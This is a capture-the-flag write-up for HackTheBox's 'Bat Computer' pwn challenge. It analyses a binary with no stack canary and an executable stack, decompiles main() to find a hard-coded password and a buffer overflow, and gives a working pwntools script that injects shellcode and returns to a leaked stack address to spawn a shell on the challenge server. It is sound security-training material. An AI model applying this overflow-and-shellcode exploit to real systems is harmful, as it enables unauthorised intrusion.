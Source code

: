 ```yaml
---

title: HTB [BAT COMPUTER] [PWN]

date: 2022-06-03 01:57:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

excerpt: Write up for the challenge "Bat Computer" from HackTheBox
---
```


## Bat computer

**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
- We don't have nx, seems like we need to execute shellcode here

![](https://i.imgur.com/uCzpFvJ.png)
- And option **1** gives us a stack leak, for now let's assume our buffer starts here..

**Decompile main()**

```c
undefined8 main(void)

{
  int iVar1;
  int local_68;
  char acStack100 [16];
  undefined auStack84 [76];
  
  FUN_001011a9();
  while( true ) {
    while( true ) {
      memset(acStack100,0,0x10);
      printf(
            "Welcome to your BatComputer, Batman. What would you like to do?\n1. Track Joker\n2. Chase Joker\n> "
            );
      __isoc99_scanf(&DAT_00102069,&local_68);
      if (local_68 != 1) break;
      printf("It was very hard, but Alfred managed to locate him: %p\n",auStack84);
    }
    if (local_68 != 2) break;
    printf("Ok. Let\'s do this. Enter the password: ");
    __isoc99_scanf(&DAT_001020d0,acStack100);
    iVar1 = strcmp(acStack100,"b4tp@$$w0rd!");
    if (iVar1 != 0) {
      puts("The password is wrong.\nI can\'t give you access to the BatMobile!");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    printf("Access Granted. \nEnter the navigation commands: ");
    read(0,auStack84,0x89);
    puts("Roger that!");
  }
  puts("Too bad, now who\'s gonna save Gotham? Alfred?");
  return 0;
}
```

- In option 2 there's a `strcmp()`  we can get that password easily by reading the decompile code
- If we enter that correctly then we can able to give `0x89` bytes input to `auStack84` array, which is only `76` bytes long
- So we can give 61 bytes more than the allocated space

**Plan:**
- First let's give our shellcode
- Then let's fill the junk till the rbp
- Finally let's overwrite the return address with the leaked address (that we got from the option 1)

**Exploit script:**

```python
from pwn import *

context.binary = ELF('./batcomputer')
p = remote('142.93.39.44',31365)


p.sendline('1')
p.recvuntil('0x')
stack_base = int(("0x"+p.recv().decode('latin-1').split()[0]),16)
log.success(f'stack base: {hex(stack_base)}')
p.sendline('2')
p.sendline('b4tp@$$w0rd!')
payload = asm(shellcraft.popad() + shellcraft.sh()) # shellcode
payload += b'A'*(84 - len(payload)) # junk
payload += p64(stack_base) # stack base

p.sendline(payload)
p.sendline('3')
p.interactive()
```

![](https://i.imgur.com/edqZ3TO.png)
- Cool we got our flag
